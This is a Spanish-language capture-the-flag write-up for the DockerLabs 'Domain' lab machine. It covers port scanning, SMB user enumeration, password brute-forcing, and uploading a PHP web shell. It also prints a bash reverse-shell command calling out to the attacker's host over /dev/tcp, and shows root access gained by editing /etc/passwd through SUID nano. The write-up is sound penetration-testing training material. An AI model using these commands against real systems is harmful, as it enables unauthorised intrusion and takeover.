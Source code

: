 # [Domain](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh domain.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **445** y **139**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b7ea8327-2ddf-4d14-a618-e260f3e0f890)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página la cuál explica ¿Qué es samba?: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4bd0efb7-0737-426b-b58e-2f4ca64e2bcd)

<br>
<br>

## Samba (Puerto 445)
En primer lugar, listaremos los recursos compartidos con smbmap de la siguiente forma: `smbmap -H 172.17.0.2 -P 445`, observamos los siguientes recursos: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5921f1a9-2a11-4c28-8322-b17bcf3d9d6b)

<br>

Ahora intentamos enumerar posible usuario de la máquina Domain para posteriormente intentar hacer fuerza bruta al servicio de samba.
<br>

Lo haremos de la siguiente forma `enum4linux -a 172.17.0.2`, podemos ver que nos reporta 2 usuarios `james` y `bob`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/adc5015f-f5f6-40ce-9230-f998216f7ca2)

<br>
<br>

## Hydra / Medusa
Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio samba usando hydra en primer lugar, usaremos el usuario bob `hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

Nos reporta el siguiente error: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0cc474a4-ec7d-4240-93ee-5c72882793bf)

<br>

Por lo que debemos usar otra herramienta de fuerza bruta (medusa tampoco funciona), en este caso usaremos `crackmapexec` usando el siguiente comando `crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt`, podemos ver que usando `crackmapexec` no nos sale el error de antes, y nos reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ace3db99-9351-4693-838a-fce977aaa785)

<br>
<br>

## Samba (Puerto 445)
Una vez conocemos el usuario y su contraseña probamos a entrar al recurso compartido html de la máquina Domain con smbclient de la siguiente forma `smbclient //172.17.0.2/html -U bob`, y a continuación nos pedirá la contraseña. Podemos ver que dentro de este recurso se encuentra el índice de la página web lo que nos da ha entender que todo lo que haya en esa carpeta será accesible desde dicho servidor.

<br>

Por lo que deberíamos hacer ahora sería enviarnos una revshell a nuestra máquina de atacante, lo haríamos de la siguiente forma. En primer lugar nos creamos un `cmd.php` que contendrá lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/84df3bd1-4baf-481d-90bc-705d989992ea)

<br>

Ahora lo podremos dentro de la carpeta compartida (`html`) a través de samba dentro de la máquina Domain. Debemos logearnos a samba como lo hicimos anteriormente (`smbclient`) en la carpeta donde tenemos nuestro `cmd.php`, una vez dentro del samba hacemos `put cmd.php`, y listo ya estaría el archivo subido al servidor web.

<br>

Accederemos a el poniendo `http://172.17.0.2/cmd.php`, y ahora abusaremos de la vulnerabilidad (RCE), podemos ver que si le pasamos el parámetro `id` de la siguiente manera `http://172.17.0.2/cmd.php?cmd=id` nos da esta respuesta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d886d5da-bb94-49c3-a0f6-7ab2ca43acb5)

<br>

Por lo que ahora nos mandaríamos una revshell poniendo lo siguiente en el buscador `http://172.17.0.2/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recuerda que debemos estar en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/10637016-dd1d-47d7-98ec-f9e63913b1f5)

<br>
<br>

## Escala de Privilegios
Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fbe027ae-cf12-4d98-93a3-536a8fa9d99f)

<br>

Vemos que también se encuentra el usuario `bob` probamos a autenticarnos haciendo `su bob` y poniendo la contraseña y listo somos el usuario `bob`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6a08e8b6-4e82-4642-a31a-32af6d3ed12a)

<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`
<br>

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/nano`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/38e5b90e-429f-48ac-a241-ac0fbf0c0be0)

<br>

Por lo que podríamos hacer con nano es modificar cualquier fichero ya que contamos con permisos SUID, lo que se nos ocurriría sería modificar el `/etc/passwd`, lo que tendríamos que hacer sería quitarle la `x` al root por lo que podríamos logearnos como root sin proporcionar contraseña. Haríamos `nano /etc/passwd` y el archivo quedaría así:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30eb18a1-0fb6-4081-8655-85ad45a8b88a)

<br>

Y si hacemos `su root` comprobamos que no nos pedirá contraseña y listo ya seremos root.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd122cf1-b071-4d1b-aef9-62afeb9176fe)
